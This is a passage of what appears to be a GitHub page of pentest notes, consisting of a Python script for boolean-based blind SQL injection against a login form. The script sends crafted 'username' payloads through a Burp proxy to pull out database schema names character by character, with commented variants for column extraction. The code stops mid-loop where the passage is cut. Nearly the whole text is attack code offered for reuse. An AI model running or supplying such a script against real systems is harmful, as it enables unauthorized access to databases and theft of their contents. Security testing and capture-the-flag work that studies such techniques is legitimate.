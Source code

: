 ## Blind SQL script

```python
#!/usr/bin/python3

import os
import sys
import time
import signal
import requests
import string
import urllib3
from pwn import log

url = "<url>"

def def_handler(sig,frame):
    print("Saliendo")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
all_letters = "_0123456789.:{}" + string.ascii_letters
all_ascii = list(range(32,127))
burp = {'http': 'http://127.0.0.1:8080'}

def check(payload):
    urllib3.disable_warnings()
    s = requests.Session()
    #s.headers.update({
    #    'Cookie' : f"""TrackingId=oXzIpOMlsPJqquRB{payload}; session=KOs6XrgzU90euH5rwRVVXZx0NiFGM0W6"""
    #})
    headers = {
        'Cookie': 'PHPSESSID=elu83jf16lpji1qro52lov78vg'
    }
    # username=admin&password=asd&submit=submit
    data = {
        'username' : f"{payload}",
        'password' : "asd"
    }
    s.verify = False
    s.keep_alive = False
    #time_start = time.time()
    r = s.post(url, data=data,headers=headers)
    #time_end = time.time()
    #if time_end - time_start > 10:
    if 'success' in r.text:
        return 1

def query():
    p2 = log.progress("Payload")
    for j in range(0,5): # Modify the value to obtain more databases, tables, columns, etc.
        output = ""
        finish = True
        p1 = log.progress(f"Database {j}")
        #for i in range(0,30): # Postgres SQL
        for i in range(1,30): # MySQL
            found_letter = 0
            for character in all_letters:
                sqli = f"""admin' AND SUBSTR((SELECT schema_name FROM information_schema.schemata LIMIT {j},1),{i},1)='{character}'-- -"""
                #sqli = f"""admin' AND (SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_schema='test_db' AND table_name='users' LIMIT {j},1),{i},1))='{character}'-- -"""
```